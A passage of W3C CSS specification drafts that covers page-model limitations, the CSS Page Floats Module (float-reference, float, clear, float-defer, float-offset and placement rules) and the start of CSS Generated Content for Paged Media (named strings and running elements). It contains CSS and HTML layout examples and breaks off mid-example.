- the 16 page-margin boxes are an extension of the print features offered by desktop browsers. Desktop browsers usually offer control over 6 page-margin boxes only. Only one desktop browser claims implementation of the page model described above in the fourteen last years. The other desktop browsers' control over the 6 page-margin boxes is then not achieved through the cascade of CSS UA stylesheets.
- no editing environment available on the market and in particular Wysiwyg text editor (for instance like Microsoft Word) implements such a box model.
- it’s not possible with the current model to position headers and footers (for instance the HTML5 header and footer elements) arbitrarily in the page area.
- the `@page` at-rule currently allows nested at-rules only for the definition of page-margin boxes. Similarly, the set of CSS properties applicable to a page box is limited and it is impossible in this model to use CSS Regions Module Level 3 [CSS3-REGIONS] to flow content into a given predefined area of a page, exclude an area from the page using CSS 3 Exclusions and Shapes Module [CSS3-EXCLUSIONS], lay out the page area into a grid using CSS Grid Layout [CSS3-GRID-LAYOUT] or using `@slot` rules that were discussed multiple times by the CSS Working Group in the recent past. The successful electronic book editing environment of Apple Inc., iBooks Author, already allows `@page` rules to specify arbitrary slots, arbitrary exclusions and shapes, and extends the list of applicable properties; most of its advanced layout capabilities are based on these features.
- the `@page` rule of CSS 2.1 [CSS21] is intended for use on print media, not dynamic media. The spread of complex HTML-based slideshows and electronic book viewers has shown that the Page Model should also apply to screen media and alike.
- ++TBD

---

## CSS Page Floats Module Level 3 {#css-page-floats-3}

- **Shortname:** `css-page-floats-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-page-floats/](https://drafts.csswg.org/css-page-floats/)
- **Published TR:** [https://www.w3.org/TR/css-page-floats-3/](https://www.w3.org/TR/css-page-floats-3/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-12-22

### 1. Overview {#css-page-floats-3:overview}

*This section is not normative.*

This specification adds new keywords on the `float` property.

This document allows to specify whether a float floats to align with a float reference inline box, column, region or page. In the case of floats with a reference fragmentation container, placement can be deferred to a subsequent fragmentation container with the *float-defer* properties.

New values on the `clear` property add further ways of refining layouts.

The way contents wrap around floats can be controlled by changing the value of the `wrap-flow` property which initially is set to `both` for page floats.

> **Issue:** Page floats as defined here work with different types of fragmentation types (columns, regions, pages) as well as container elements. The specification is no longer specific to print or to pages. At the same time, inline floats and page floats differ in many ways, and it may (or may not) be a good idea to separate the two entirely. Therefore, the name *CSS Page Floats* should probably be replaced with a more appropriate name.

#### 1.1. Value Definitions {#css-page-floats-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Terminology {#css-page-floats-3:terms}

****Float****

: An element which has float set to something else than none.

****Inline float****

: A float which has float set to inline.

****Page float****

: A float which has float set to something else than inline or none.

****Float block formatting context****

: The block formatting context which is generated by a float and which contains its contents.

****Float anchor****

: The float anchor is the point in the flow where the float had appeared had it not been a float and instead had been an empty inline element with no margins, borders or padding.

****Float containing block formatting context****

: The block formatting context inside of which an float is embedded.

****Initial float reference****

: The entity to which the float is aligned initially, before float placement takes place.

****Float reference****

: The entity to which the float is aligned.

****Not overlapping****

: Two elements are not overlapping if the margin box of one element is not overlapping the margin box of the other element.

### 3.  Floating to the inline-start/inline-end and block-start/block-end {#css-page-floats-3:floating}

Floating elements can float to the start or end of the float anchor’s line or block, specified by the `float` attribute. The floats are aligning to the start or end of a float reference, specified by the `float-reference` attribute. The float reference can be the float anchor’s line box, column, region or page.

#### 3.1. The `float-reference` property {#css-page-floats-3:float-reference-property}

| Field | Value |
| --- | --- |
| Name: | **float-reference** |
| [Value:](#css-values-4:value-defs) | inline \| column \| region \| page |
| [Initial:](#css-cascade-6:initial-values) | inline |
| [Applies to:](#css-cascade-5:applies-to) | all elements. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****inline****

: The float reference is the line box of the float anchor.

  The float containing block formatting context is the same as that of the float anchor.

  The float is an inline float.

****column****

: The float reference is the column in a multi column environment in which the float anchor is placed. If the float anchor is not inside a column, the float reference is the line box of the float anchor.

  The float containing block formatting context is a new block formatting context with the same dimensions and placement as the float reference.

  The float is a page float.

****region****

: The float reference is the region in a region-chain within which the float anchor is placed. If the float anchor is not inside a region, the float reference is the line box of the float anchor.

  The float containing block formatting context is a new block formatting context with the same dimensions and placement as the float reference.

  The float is a page float.

****page****

: The float reference of the float is the page within which the float anchor is placed. If the float anchor is not inside a page, the float reference is the line box of the float anchor.

  The float containing block formatting context is a new block formatting context with the same dimensions and placement as the float reference.

  The float is a page float.

> **Issue:** The float containing block formatting context having the same dimensions as the float reference means that all floats that are not inline floats cannot move outside of their float references. Is this wanted?

> **Issue:** It is not possible to specify a block element which element to use as the reference element. This has been requested.
>
> Maybe something like:
>
> ```
> <style>
> .float {
> float-reference: float-container;
> }
>
> #container {
> float-container: true;
> }
> </style>
>
> <div id="container">
> <p>First paragraph<span class="float">FLOAT</span></p>
>
> <p>Second paragraph
> <span class="inline-block">[<span class="float">FLOAT</span>] </span>
> And some more text</p>
> </div>
> ```
>
> This should float both floats with reference to the <div id="container"> element, rather than the <P> and inline <SPAN> elements.

#### 3.2. The `float` property {#css-page-floats-3:float-property}

| Field | Value |
| --- | --- |
| Name: | **float** |
| [Value:](#css-values-4:value-defs) | block-start \| block-end \| inline-start \| inline-end \| snap-block \| `<snap-block()>` \| snap-inline \| `<snap-inline()>` \| left \| right \| top \| bottom \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

****inline-start****

: If the float reference is a line box, the element generates a box that is floated to the line-start outer edge of the float reference and content flows on the line-end side of the box.

  If the float reference is not a line box, the element generates a box that is floated to the line-start and block-start outer edges of the float reference.

****inline-end****

: If the float reference is a line box, the element generates a box that is floated to the line-ebd outer edge of the float reference and content flows on the line-start side of the box.

  If the float reference is not a line box, the element generates a box that is floated to the line-end and block-end outer edges of the float reference.

****block-start****

: If the float reference is a line box, block-start behaves like inline-start.

  If the float reference is not a line box, the element generates a box that is floated to the block-start and line-start outer edges of the float reference.

  The initial value of the max-width or max-height property that refers to the inline size of the float is '100%'.

  Content flows on the block-end side of the box.

****block-end****

: If the float reference is a line box, block-end behaves like inline-end.

  If the float reference is not a line box, the element generates a box that is floated to the block-end and line-end outer edges of the float reference.

  The initial value of the max-width or max-height property that refers to the inline size of the float is '100%'.

  Content flows on the block-start side of the box.

****left****

: If the float reference is a line box, behaves like inline-start or inline-end, whichever corresponds to line-left for the float reference.

  Otherwise, behaves like block-end, inline-start or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****right****

: If the float reference is a line box, behaves like inline-start or inline-end, whichever corresponds to line-right for the float reference.

  Otherwise, behaves like block-start, inline-start or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****top****

: Behave like block-start or inline-start depending on the float containing block’s `direction` and `writing-mode`.

****bottom****

: Behave like block-end or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****snap-block()****

: The `snap-block()` function is defined as:

  ```css
  snap-block() = snap-block( <length> , [ start | end | near ]? )
  ```

  Has no effect if the element is an inline float.

  If the element is a page float, it makes the element float to the start or the end of the block if it naturally appears within a certain distance from either one. The length value(s) specifies the maximum distance from the start/end that an element must be within in order to be floated; one length value specifies the distance from both the start and the end, two length values specify the distance from the start and end, respectively.

  The optional keyword value specifies where the element is floated: start, end, or the nearest of the two. The initial value is `near`. If `near` is in effect and the element is within the specified distance both from the start and the end, end wins.

****snap-block****

: Behaves as `snap-block(2em, near)`

****snap-inline()****

: The `snap-inline()` function is defined as:

  ```css
  snap-inline() = snap-inline( <length> , [ left | right | near ]? )
  ```

  Has no effect if the element is an inline float.

  If the element is a page float, it makes the element float to the line start or line end if it naturally appears within a certain distance from the start or end of the line. The length value(s) specifies the maximum distance from the start/end that an element must be within in order to be floated; one length value specifies the distance from both the start and the end, two length values specify the distance from the start and end, respectively.

  The optional keyword value specifies where the element is floated: line start, line end, or the nearest of the two. The initial value is `near`. If `near` is in effect and the element is within the specified distance both from the start and the end, end wins.

****snap-inline****

: same as `snap-inline(2em, near)`

****none****

: The box is not floated.

> **Issue:** There is currently no way to float into a combination of directions (top right, right top, left bottom, bottom left, etc.).

> **Example:** Float figure to top of reference column:
>
> ```
> .figure { float-reference: column; float: top }
> ```
>
> 

> **Example:** In this example a block-start float that does not fill the entire inline size of the float reference is placed at the start of the block and line.
>
> ```
> .figure { float-reference: column; float: block-start; width: 50% }
> ```
>
> 

> **Example:** In this example, a figure naturally appears close to a column break. There is not enough space for the figure in the first column, and it is therefore placed in the second column, leaving white space at the bottom of the first column.
>
> 
>
> To avoid the white space, the image can be floated to the nearest edge (in the block direction):
>
> ```
> .figure { float-reference: column; float: snap-block }
> ```
>
> In this example, the figure is already at the nearest edge, so it does not move. However, floats allow subsequent content to be displayed before the float and the white space can therefore be filled:
>
> 

> **Example:** In this example, two figures naturally appear in the text flow:
>
> 
>
> A typographer would typically try to avoid single lines of text above/below figures, which can be achieved with:
>
> ```
> div.figure { float-reference: column; float: snap-block(1.5em) }
> ```
>
> The length value specifies the reach of the snap function; in this example the second figure is affected, but not the first.

> **Example:** In this example, two figures naturally appear in the text flow:
>
> 
>
> To make the figures snap to the nearest edges, this code can be applied:
>
> ```
> div.figure { float-reference: column; float: snap-block(2.5em) }
> ```
>
> The resultant rendering is:
>
> 

> **Example:** In this example, tables will snap to the top/bottom if the top/bottom of the border box is closer than `3em` from the top/bottom of the float-reference which is a block element.
>
> ```
> table { float: snap }
> table { float: snap-block(3em) }
> table { float: snap-block(3em, bottom) }
> table { float: snap-block(3em 2em, bottom) }
> ```

> **Note:** More examples with regions as float references needed.

### 4.  The `clear` property {#css-page-floats-3:clearing_page_floats}

| Field | Value |
| --- | --- |
| Name: | **clear** |
| [Value:](#css-values-4:value-defs) | inline-start \| inline-end \| block-start \| block-end \| left \| right \| top \| bottom \| both-inline \| both-block \| both \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements, floats, regions, pages |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

To prevent stacking of floats, the `clear` property can be used:

****inline-start****

: If applied to an inline float, requires that the block-start outer edge of the box comes after the block-end outer edge of any inline-start-floats with an inline-start-float-reference that resulted from elements earlier in the source document.

  If applied to a page float, the float reference in which the page float is placed will be seen as full when determining whether it can host subsequent page floats that float in the inline-start direction.

****inline-end****

: If applied to a block-level element or an inline float, requires that the block-start outer edge of the box comes after the block-end outer edge of any inline-end-floats with an inline-end-float-reference that resulted from elements earlier in the source document.

  If applied to a page float, the float reference in which the page float is placed will be seen as full when determining whether it can host subsequent page floats that float in the inline-end direction.

****block-start****

: If applied to a block-level element or an inline float, behaves like inline-start.

  If applied to a page float, the float reference in which the page float is placed will be seen as full when determining whether it can host subsequent page floats that float in the block-start direction.

****block-end****

: If applied to a block-level element or an inline float, behaves like inline-end.

  If applied to a page float, the float reference in which the page float is placed will be seen as full when determining whether it can host subsequent page floats that float in the block-end direction.

****left****

: Behave like block-end, inline-start or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****right****

: Behave like block-start, inline-start or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****top****

: Behave like block-start or inline-start depending on the float containing block’s `direction` and `writing-mode`.

****bottom****

: Behave like block-end or inline-end depending on the float containing block’s `direction` and `writing-mode`.

****both-inline****

: Behave like inline-start and inline-end.

****both-block****

: Behave like block-start and block-end.

****both****

: Behave like both-inline.

****all****

: Behave like both-block and both-inline.

> **Example:** In this example, the two figures may appear in the same column:
>
> ```
> .figure { float-reference: column; float: bottom; clear: none }
>
> <div class=figure></div>
> <div class=figure></div>
> ```
>
> 

> **Example:** In this example, the two figures will appear in different columns:
>
> ```
> .figure { float-reference: column; float: bottom; clear: bottom }
>
> <div class=figure></div>
> <div class=figure></div>
> ```
>
> 

> **Example:** In this example, the two figures may appear at the bottom of the same column due to clearing only at the top:
>
> ```
> .figure { float-reference: column; float: bottom; clear: top }
>
> <div class=figure></div>
> <div class=figure></div>
> ```
>
> 

> **Example:** In this example, the two figures will appear in different columns due to clearing at the bottom:
>
> ```
> .figure { float-reference: column; float: bottom; clear: bottom }
>
> <div class=figure></div>
> <div class=figure></div>
> ```
>
> 

> **Example:** In this example, the two figures end up the top corner of two different pages:
>
> ```
> .figure { float-reference: page; float: top; clear: top }
>
> <div class=figure></div>
> <div class=figure></div>
> ```

> **Example:** In this example, the two figures request different positions, and they may therefore end up in the same column:
>
> ```
> .figure.one { float-reference: column; float: top; clear: top }
> .figure.two { float-reference: column; float: bottom; clear: bottom }
>
> <div class="figure one"></div>
> <div class="figure two"></div>
> ```

### 5. Deferring page floats {#css-page-floats-3:deferring_floats}

Users can influence the placement of a page float by deferring them to another fragmentation container than where the float anchor is placed.

A float that is an inline float cannot be deferred.

Float deferring assigns an initial float reference, yet float stacking can lead page floats being moved to a subsequent fragmentation container if their initial float reference lacks the space to host them.

The `float-defer` property is introduced to control deferring floats:

#### 5.1. The `float-defer` property {#css-page-floats-3:float-defer-property}

| Field | Value |
| --- | --- |
| Name: | **float-defer** |
| [Value:](#css-values-4:value-defs) | <integer> \| last \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | floats |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword or integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether the initial float reference of a page float is the fragmentation container in which the float anchor is placed after previous page floats have been placed, or in another one.

This property is ignored if the element is an inline float.

Values are:

**none**

: The initial float reference is the fragmentation container in which the float anchor is placed after all previous page floats have been placed.

**<integer>**

: A positive integer value indicates that the initial float reference of the page float should be Nth fragmentation container of the `fragmentation flow`, where N is the value of the `float-defer` property plus the order number of the fragmentation container in which the float anchor is placed after all previous page floats have been placed within the given fragmentation context. If N is larger than the order number of the last fragmentation container within the given fragmentation context at the time of assignment, then N is the order number of the last fragmentation container within the given fragmentation context.

  A negative integer value indicates that the initial float reference of the page float should be a fragmentation container of the fragmentation context, counting backward from the end, so that -1 is the last fragmentation container, -2 is the next-to-last, etc. . In the case of a negative integer value, the initial float reference is the Nth fragmentation container of the fragmentation context, where N is 1 plus the order number of the last fragmentation container within the given fragmentation context after all previous page floats have been placed plus the value of the `float-defer` property.

  Zero is the same as `none`.

  If the value of the `float-defer` property would cause the initial float reference to be an inexistent fragmentation container, the property is interpreted as if it were zero.

  > **Note:** Negative float-defer values put the initial float reference a certain number to be a certain amount of fragmentation containers from the last fragmentation container at the time of the placement. Subsequent page float stacking can mean that a page float is being placed in a later fragmentation container (a page float with float-defer set to -3 can end up being placed in the last fragmentation container), and later page floats may mean that new fragmentation containers are added, so that the a fragmentation container that previously was Nth last fragmentation container within a fragmentation context now is the N+Xth last. Additional fragmentation container(s) that are added after the page float was placed, will not cause the page float to be moved.

**last**

: The initial float reference is the last fragmentation container within the given fragmentation context after all previous page floats have been placed.

> **Example:** Float figure to the top of the region that follows the region in which the float anchor is placed:
>
> ```
> .figure { float-reference: region }
> .figure { float: top }
> .figure { float-defer: 1 }
> ```

> **Example:** Float figure to the top of the next-to-last column:
>
> ```
> .figure { float-reference: column; float: top; float-defer: -2 }
> ```
>
> 

> **Example:** Float figure to the top of the last page:
>
> ```
> .figure { float-reference: page }
> .figure { float: top }
> .figure { float-defer: -1 }
> ```

> **Example:** Float figure to the top of the last column:
>
> ```
> .figure { float-reference: column }
> .figure { float: top }
> .figure { float-defer: last }
> ```

> **Example:** Float figure to top of the last column:
>
> ```
> .figure { float-reference: column; float: top; float-defer: last }
> ```
>
> 

### 6. Wrapping around page floats {#css-page-floats-3:wrapping-around-page-floats}

Page floats have their `wrap-flow` property set to `both` initially and are treated like exclusions. This specification does not make any further specification about wrapping contents around page floats.

> **Issue:** Should the `wrap-flow` really be set to both, or should the flow be restricted to only be on one side?

### 7. The `float-offset` property {#css-page-floats-3:the-float_offset-property}

| Field | Value |
| --- | --- |
| Name: | **float-offset** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | floats |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see prose |
| [Computed value:](#css-cascade-6:computed) | computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property pushes a page float in direction opposite of the where it has been floated with `float`.

If the element is an inline float, this property is ignored.

This property can only influence a page float along an axis along which it has been floated.

**`<percentage>`**

: Percentage values are computed according to this formula:

  ```
  (containing-block-width - float-width) * percentage
  (containing-block-height - float-height) * percentage
  ```

> **Example:** ```
> img {
>   float-reference: column;
>   float: left;
>   float-offset: 2em;
> }
> ```
>
> In this example, the image is floated to the left. Therefore, `float-offset` may only push the element to the right.

> **Example:** ```
> img {
>   float-reference: column;
>   float: right;
>   float-offset: 5px;
> }
> ```
>
> 

### 8. Page float placement {#css-page-floats-3:page-float-placement}

The order of page floats placement is determined by the following rules:

1. All page floats with `float-reference` set to `page` are placed, in document order, before those with `float-reference` set to `region` and `column`.
2. Thereafter, page floats with `float-reference` set to `column` and `region` are placed in document order.

The placement of a single page float is a process that has to be terminated entirely before the placement of a subsequent page float can be initiated. The placement process consists of the following steps:

1. Determine the initial float reference by considering the fragmentation container in which the float anchor is placed and the `float-defer` property of the page float. The float reference is initially set to be the same as the initial float reference.
2. Determine if the given float reference has enough space or can be expanded to host the page float, if the rules of  [float stacking](#css-page-floats-3:float-stacking) and [float reference growth](#css-page-floats-3:float-reference-growth) are to be followed. If this is not the case, and the float reference is not the last fragmentation container within the given fragmentation context, then make the following fragmentation container within the given fragmentation context the float reference. Repeat this step until the float reference can be expanded enough to host the page float or it is the last fragmentation container within the given fragmentation context.
3. If the float reference is the last fragmentation container within the given fragmentation context, and it has not enough space and cannot be expanded to host the page float, then do the following:

  1. If the fragmentation context allows for the addition of another fragmentation container and an additional fragmentation container would have the needed size to host the page float, a new fragmentation container is added to the end of the fragmentation context. The float reference is set the newly created fragmentation container.
  2. Otherwise, if the fragmentation container is a region, then the 'regionOverset` attribute of the fragmentation container is set to `overset`.
4. The page float is placed in the float reference according to the rules of 'float stacking' and 'float reference growth'.

#### 8.1. Float reference growth {#css-page-floats-3:float-reference-growth}

Float references can grow up to the their `max-height` and `max-width` or their `available size`, whichever is the lowest, in order to accommodate page floats.

#### 8.2. Rules for page float stacking {#css-page-floats-3:float-stacking}

Page floats are stacked within a given float reference in the order of their placement and in the direction of the inline- and flow-directions of the fragmentation context while not overlapping with any other page floats with the same float reference and by keeping a distance N between the page float’s margin edge and the padding edge of the float reference as well as between the page float’s margin edge and the margin edge of the last previously placed page float with the same float reference and the same `float` value, where N is the `float-offset` value of the page float.

For the purpose of calculating whether enough space is available for a page floats within the float reference, it is assumed that the page floats in the block directions fill the entire line size of the float reference and page floats in the inline direction fill the entire block size of the float reference.

For the purpose of placement, page floats in the block-start direction are also placed at the inline-start edge of the float reference and vice versa, and page floats in the block-end direction are placed at the inline-end edge of the float reference and vice versa.

If the page float has a defined `clear`-value, then the float reference in which the page float is placed is closed for all subsequent page floats that floating in the direction specified by the `clear`-value.

> **Issue:** We can effectively currently float to two corners: inline-start/block-start and inline-end/block-end. We should augment this with the option to have a secondary float direction to allow basic 2D floating.

### 9.  Floats and absolutely positioned exclusions {#css-page-floats-3:relation_to_absolutely_positioned_exclusions}

Floats and absolutely positioned exclusions share some common traits, but in the case of inline floats they are not the same. Floats that are not inline floats should behave the same as absolutely positioned exclusions with positions and sizes manually set to prevent overlap between floats and to prevent floats from moving beyond the edges of the float reference, with the float reference being grown as much as needed up to its maximum extend to accommodate all containing floats.

#### 9.1.  Differences between inline floats and absolutely positioned elements {#css-page-floats-3:inline_floats_and_absolutely_positioned_exclusions}

*This section is not normative.*

Inline floats and absolutely positioned elements are both out-of-flow elements. Absolutely positioned elements that are also exclusions can imitate many of the features of floats.

However, in the case of inline floats, the block formatting context that contains them (the float containing block formatting context) is required to include the area occupied by the float, which is not a requirement for absolutely positioned elements.

> **Example:** An inline float inside a float containing block formatting context given by a display-inline-block element. The element, which has a green border, is expanded to include the brown float.
>
> ```
> <style>
> .float {
>   float: left;
>   margin: 5px;
> }
> .border {
>     border: 3px solid black;
>     margin: 5px;
> }
> #outer {
>     border: 1px solid green;
>     display: inline-block;
> }
> canvas {
>     background-color: brown;
> }
> p {
>   margin: 5px;
> }
> </style>
> <div id="outer">
>     <p class="border">
>         <span class="float border">
>             <canvas width="100" height="100"/>
>         </span>
>         First paragraph.
>     </p>
>     <p class="border">
>         Second paragraph and some more text.
>     </p>
> </div>
> ```
>
> 
>
> In comparison, the below is the same HTML, but the float is replaced by an absolutely positioned element that is also an exclusion. The float containing block formatting context is still given by a display-inline-block element. However, the element, marked by a green border, does not expand to include the brown, absolutely positioned element.
>
> ```
> <style>
> .float {
>     position: absolute;
>     top: 8px;
>     left: 8px;
>     wrap-flow: both;
> }
> .border {
>     border: 3px solid black;
>     margin: 5px;
> }
> #outer {
>     border: 1px solid green;
>     display: inline-block;
>     position: relative;
> }
> canvas {
>     background-color: brown;
> }
> </style>
> <div id="outer">
>     <p class="border">
>         <span class="float border">
>             <canvas width="100" height="100"/>
>         </span>
>         First paragraph.
>     </p>
>     <p class="border">
>         Second paragraph and some more text.
>     </p>
> </div>
> ```
>
> 

### 10. Overconstrained floats {#css-page-floats-3:overconstrained-page-floats}

In many cases, the specified values on these properties cannot be honored.

> **Example:** The number of columns is limited, and high values therefore cannot be honored:
>
> ```
> .figure { float-reference: column; float: top; float-defer: 1000 }
> ```

> **Example:** A narrow screen may only have room for one column, in which case this request cannot be honored:
>
> ```
> .figure { float-reference: column; float: top; float-defer: -5 }
> ```

> **Example:** In long documents, all content cannot fit on the last page, and this rule therefore cannot be honored:
>
> ```
> p { float-reference: page; float: top; float-defer: last }
> ```

Floats are processed in the order they appear in the source. However, the visual order of floats may not be the same as the source order.

> **Example:** Consider this code:
>
> ```
> .one { float-reference: page; float: top; float-defer: last }
> .two { float-reference: column; float: top; clear: column }
>
> <div class=one></div>
> <div class=two></div>
> ```
>
> In this example, the first element requests to appear on the last page, while the second element requests to appear in the natural column. If the natural column of the second element appears on a page before the last page, the second element will appear visually before the first.

> **Example:** Consider this code:
>
> ```
> .one { float-reference: page; float: top; float-defer: last }
> .two { float-reference: page; float: top; clear: page; }
>
> <div class=one></div>
> <div class=two></div>
> ```
>
> If all content can fit on one page, the first page will also be the last page. The first element is processed first and is placed on top of the first page. Then the second element is processed. It requests a clear top, something which is not possible on the first page. Therefore, a second page is created and the first element is moved there. Even if the first element requests to be on the last page, it will not appear there.

When resolving over-constrained layouts, the order of importance for defined goals are:

1. honor 'clear: top/bottom'
2. honor `float-defer`
3. honor 'float: top/bottom'
4. display all content (as described by other CSS properties)
5. keep the number of pages to a minimum

---

## CSS Generated Content for Paged Media Module Level 3 {#css-gcpm-3}

- **Shortname:** `css-gcpm-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-gcpm/](https://drafts.csswg.org/css-gcpm/)
- **Published TR:** [https://www.w3.org/TR/css-gcpm-3/](https://www.w3.org/TR/css-gcpm-3/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-09

### Introduction {#css-gcpm-3:introduction}

Paged media have many [special requirements](http://w3c.github.io/dpub-pagination/index.html) for the display of document content, which have evolved over the long history of printed books. Running headers and footers function as aids to navigation. Notes may appear at the bottom of the page, as footnotes. The properties of pages themselves may change based on their content or position in the document. Leaders visually connect related content. Cross-references may require generated text. Some paged media formats such as PDF use bookmarks for navigation.

This module defines new properties and values, so that authors may bring these techniques to paged media.

#### Value Definitions {#css-gcpm-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 1.  Running headers and footers {#css-gcpm-3:running-headers-and-footers}

[CSS3PAGE] describes the sixteen page margin boxes which can be used for running headers and footers, but does not describe a mechanism for inserting content in those boxes. This module provides two methods for doing so. **Named strings** copy text for reuse in margin boxes. **Running elements** move elements (complete with style and structure) from the document to margin boxes.

#### 1.1.  Named strings {#css-gcpm-3:named-strings}

The `string-set` property copies the text content of an element into a named string, which functions as a variable. The text content of this named string can be retrieved using the `string()` function. Since these variables may change on a given page, an optional second value for the `string()` function allows authors to choose which value on a page is used.

##### 1.1.1.  The string-set property {#css-gcpm-3:setting-named-strings-the-string-set-pro}

| Field | Value |
| --- | --- |
| Name: | **string-set** |
| [Value:](#css-values-4:value-defs) | [ `<custom-ident>` `<content-list>` ]# \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements, but not pseudo-elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

*User agents are expected to support this property on all media, including non-visual ones.*

The `string-set` property contains one or more pairs, each consisting of an custom identifier (the name of the named string) followed by a `<content-list>` describing how to construct the value of the named string.

`<content-list>` expands to one or more of the following values, in any order.

```css
<content-list> = [ <string> | <counter()> | <counters()> | <content()> | <attr()> ]+
```

**`<string>`**

: A [string](#css2:strings), as defined in [CSS21]

**`<counter()>`**

: A [counter()](#css2:counter) function, as described in [CSS21].

**`<counters()>`**

: A [counters()](#css2:counter) function, as described in [CSS21].

**`<content()>`**

: The `content()` function, described below.

**`<attr()>`**

: An `attr()` function, as defined in [CSS-VALUES-3]

###### 1.1.1.1. The `content()` function {#css-gcpm-3:content-function-header}

```css
content() = content([text | before | after | first-letter ])
```

> **Issue:** How do we define the default value for this function?

**text**

: The string value of the element, determined as if `white-space: normal` had been set. This is the default value

**before**

: The string value of the `::before` pseudo-element, determined as if `white-space: normal` had been set.

**after**

: The string value of the `::after` pseudo-element, determined as if `white-space: normal` had been set.

**first-letter**

: The first letter of the element, as defined for the `::first-letter` pseudo-element

The content values of named strings are assigned at the point when the content box of the element is first created (or would have been created if the element’s display value is none). The **entry value** for a page is the assignment in effect at the end of the previous page. The **exit value** for a page is the assignment in effect at the end of the current page.

Whenever the value of the element changes, the value of the named string(s) is updated. User agents must be able to recall many values of the named string, as the `string()` function can return past, current, or future values of the assignment.

> **Example:** HTML:
>
> ```
> <h1>Loomings</h1>
> ```
>
> CSS:
>
> ```
> h1::before {
>   content: 'Chapter ' counter(chapter);
> }
>
> h1 {
>   string-set: header content(before) ':' content(text);
> }
>
> h1::after {
>   content: '.';
> }
> ```
>
> The value of the named string “header” will be “Chapter 1: Loomings”.

> **Example:** HTML:
>
> ```
> <section title="Loomings">
> ```
>
> CSS:
>
> ```
> section {
>   string-set: header attr(title);
> }
> ```
>
> The value of the “header” string will be “Loomings”.

##### 1.1.2.  The `string()` function {#css-gcpm-3:using-named-strings}

The `string()` function is used to copy the value of a named string to the document, via the `content` property. This function requires one argument, the name of the named string. Since the value of a named string may change several times on a page (as new instances of the element defining the string appear) an optional second argument indicates which value of the named string should be used.

The second argument of the `string()` function is one of the following keywords:

**first**

: The value of the first assignment on the page is used. If there is no assignment on the page, the entry value is used. `first` is the default value.

**start**

: If the element is the first element on the page, the value of the first assignment is used. Otherwise the entry value is used. The entry value may be empty if the element hasn’t yet appeared.

**last**

: The exit value of the named string is used.

**first-except**

: This is identical to `first`, except that the empty string is used on the page where the value is assigned.

> **Example:** CSS:
>
> ```
> @page {
>   size: 15cm 10cm;
>   margin: 1.5cm;
>
>   @top-left {
>     content: "first: " string(heading, first);
>   }
>
>   @top-center {
>     content: "start: " string(heading, start);
>   }
>
>   @top-right {
>     content: "last: " string(heading, last);
>   }
> }
>
> h2 {
>   string-set: heading content();
> }
> ```
>
> The following figures show the first, start, and last assignments of the “heading” string on various pages.
>
> 
>
> The [start](#css-gcpm-3:string-start) value is empty, as the string had not yet been set at the start of the page.
>
> 
>
> Since the page starts with an h2, the [start](#css-gcpm-3:string-start) value is the value of that head.
>
> 
>
> Since there’s not an h2 at the top of this page, the [start](#css-gcpm-3:string-start) value is the exit value of the previous page.

#### 1.2.  Running elements {#css-gcpm-3:running-elements}

Many headers and footers cannot be represented only by unformatted text. A book title serving as a running head may contain an italic word, for example. A mechanism is needed to move or copy elements into margin boxes. To do this, we add the `running()` value to the position property, and the `element()` value to the content property.

> **Example:** ```
> @page {
>   @top {
